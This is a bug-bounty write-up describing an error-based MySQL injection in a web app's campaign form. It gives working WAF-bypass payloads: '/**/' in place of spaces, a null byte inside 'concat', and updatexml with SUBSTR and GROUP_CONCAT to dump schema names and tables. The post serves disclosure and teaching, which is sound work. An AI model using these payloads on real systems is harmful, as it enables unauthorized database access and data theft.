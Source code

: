 ```yaml
---
title: Accidental second order error based sql injection
tags: sql
author: djxploit
show_author_profile: true
show_title: true
show_date: true
show_tags: true
full_width: false
header: false
footer: true
show_edit_on_github: false
show_subscribe: false
license: false
---
```


Hello everyone.   
So this issue was found on a private program. There was a feature to create campaigns for different purpose. It required various form fields, like campaign_name, duration of the campaign, mode of the campaign(private/public), etc. On submitting the form, a POST request was sent containing the form fields. This will inturn generate a link for the created campaign , and using this link the user could access it. The POST data contain a field `campaign_name` , and that was the injection point.  

I was originally looking for second order xss on this feature, as the value of `campaign_name` field was getting reflected in the source code of the generated campaign (accessible using the generated link). So I tried to see which characters are encoded(in an attempt for possible xss). And in that process, I inserted a `double_quote(")`, and upon visting the generated link, it gave me a sql error. To confirm, I added another `double_quote(")` and the error was gone, and I received a 200 OK response status (On error it was giving me 500 status with the sql error). So this confimed that it is an error-based sql injection. The error message also revealed the structure of the sql query used to retrieve the value of `campaign_name`:  
  ```select name from campaign where name like "campaignx%"```  

So my injection was in `campaignx`. By looking at above query it is evident that injecting a single double quote would break the query, but 2 double quote won't break the query. Also in order to make sure that my injected query doesnot break the original query, I need to discard everything that is after the injection point (the remaining `%"` of the query). For that I need to use comments. Upon trial and error, I found that `#` is working as a valid comment (indicating that the database may be mysql). So my injected query is like :  
  ```select name from campaign where name like "campaignx"injected_data;#%"```  
The semicolon is used to end the statements that are being used in the injection.  

My next option was to extract data. First I tried to check what keywords are allowed. This is because, when I tried to add `and` or `or` keyword, it was blocked by
cloudflare WAF, giving me a 403 status code. So then I checked for `UNION`, luckily this was allowed. Similarly `ORDER by` was also allowed. But white spaces are
not allowed. So I tried various bypasses, and settled on sql inline comments `/**/`. So now I could use `UNION` to execute additional sql queries in the injected
point. So if I am going to use UNION, one thing to remember is that the number of columns, the previous table has, should be equal to number of columns you are
accessing in your query. So if `campaign` table has 3 columns ,then we should also use 3 columns. So the UNION query be like: 
  ```select name from campaign where name like "campaignx"/**/UNION/**/select/**/1,2,3;#%"```  

But as we don't know the column number of the `campaign` table, we need to find that using the `ORDER BY` clause as follows :  
  ```select name from campaign where name like "campaignx"/**/ORDER/**/BY/**/1;#```  
If this returned no error, then we need to increase the `ORDER BY` number, unless we get an error. So for example, if `ORDER BY 5` gives an error, but `ORDER BY 4`
doesnot give an error, then we can conclude that the table `campaign` has 4 columns.  

So now we could finally use the union statement. So I ran the follwoing query:  
  ```select name from campaign where name like "entered campaign"/**/UNION/**/select/**/1,2,3,4;#```  
This gave me 200 status error, meaning that the query executed without any error. So it is valid.
But the thing is none of the 1,2,3 or 4 is reflected in the response. So I could not find which column is reflecting in the output , so which one should I use for 
extracting information. But that was obivious, as this was error-based sql, so only when the query will return error, error will be displayed.  

So searching for cheatsheets and resources, I found that error messages can also be used to extract information. And this is what I used. But out of many techniques, like convert(), duplicate select statements and updatexml(), only updatexml() tends to work in my case. But updatexml also has a limitation, that it can only output 32 chars. But while trying the below query, I ran into a problem :  
  ```"/**/UNION/**/select/**/updatexml(null,(@@version),null),NULL,NULL,NULL,NULL,NULL;#```  
This returned only the last 3 chars of the version.   
Searching more about updatexml() , I found that I need to use concat() , in order to get the full 32 bytes. But soon I found that concat() is also blocked by WAF.
This time I took the challenge, and tried various methods for bypassing by following online resources. Soon I found that using `null byte (0x00)` , I could bypass the WAF. And by null byte, I mean while sending the POST request, edit the request in hex editor(burp suite also provide) and add a null byte(00) between the concat keyword. So the query seems like :  
  ```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(@@version)),null),NULL,NULL,NULL,NULL,NULL;#```  
And this gave me the full version, as the size of the string was below 32 bytes.  

So now I can use following query to retrieve other information.   
Database names can be retrieved by : `select schema_name from information_schema.schemata`  
Table name of current database : `select table_name from information_schema.tables where table_schema=database()`  
Column name of a table : `select column_name from information_schema.columns where table_name="mytablename"`  

But the problem occured, when I tried to implement it.  
  ```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(select schema_name from information_schema.schemata/**/LIMIT/**/0,1)),null),NULL,NULL,NULL,NULL,NULL;#```  
This gave me the 1st database_name. To get the second one I simply need to increase the LIMIT from 0,1 to 1,1 and so on.  
But what if the 1st database_name is greater than 32 bytes (that would not be the case for database names generally, but would be the case for the records like email,password, as they are generally greater than 32 bytes, considering that they are encrypted). So in that case I would only be able to retrieve the 1st 32 bytes and the rest would simply be truncated.  

So again googling for this situation, I found a stackoverflow thread, that gives a hint towards this situation. So the solution is I need to use SUBSTR()
Query would be :   
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),1,32)),null),NULL,NULL,NULL,NULL,NULL;#```  
This would retrieve the 1st 32 byte of the 1st database name, and to get the remaining part of 1st database name (if there is any), we just need to increase the SUBSTR location number from 1 to 32 like :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),32,32)),null),NULL,NULL,NULL,NULL,NULL;#```  
and so on.  
Now this query can be used to retrieve the database names. But there is extra query that is being used. For example, if the database name is less than 32 bytes, but if we are still calling the 2nd query to look for 2nd 32 bytes also, then that query is just wastage of time.  
Also if the name is more than 64 bytes, we would need 3 queries to get the full database name. But as we don't know the total length of the database name, we would simply issue 2 queries or a preprogrammed number of queries, and so that would mean wastage of query or loss of data.  
So searching for this , I again found a solution on internet. This solution looks like as follows :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((SELECT/**/CAST(GROUP_CONCAT(table_name,0x0a)/**/as/**/CHAR(4096))/**/FROM/**/(SELECT/**/*/**/FROM/**/information_schema.tables/**/where/**/table_schema=database())a),1051,32)),null),1,1,1,1,1;#```  
So this query would first retrieve all the table names ,and then it would join them using the concat(), and then using cast() function it would convert the result to character type, and then finally using substr() , we could get them one by one , at 32 bytes per query.  
This is highly optimized, removes the overhead of changing limits to get different tables, also no wastage of query.  

Finally I rerieved all database information. 

**Note: Try the query in your local mysql database, then try in the live website.**  

Resources used :  
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MSSQL%20-%20Error%20Based%20SQLi  
https://security.stackexchange.com/questions/121204/dumping-custom-query-via-sql-injection-when-output-is-in-the-die-function  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-UpdateXML.html  
https://websec.ca/kb/sql_injection  
https://rafaybaloch.com/2017/06/error-based-sql-injection-tricks-in.html  
https://www.exploit-db.com/papers/13650  
https://infosecwriteups.com/a-technique-that-a-lot-of-sql-injection-beginners-dont-know-atmanand-nagpure-write-up-abdc7c269dd5  
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet  
https://www.programmersought.com/article/29625825274/  
https://incogbyte.github.io/hacking/2020/12/12/sqli-bypass-techs.html  
https://medium.com/@hninja049/advance-sql-injection-bypass-waf-10c50fdbb80d  
https://www.sqlinjection.net/time-based/  
https://shahjerry33.medium.com/sql-injection-remote-code-execution-double-p1-6038ca88a2ec  
https://www.exploit-db.com/docs/english/14475-sql-injection-tutorial.pdf  
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md  
https://book.hacktricks.xyz/pentesting-web/sql-injection  
https://www.programmersought.com/article/48964149849/  

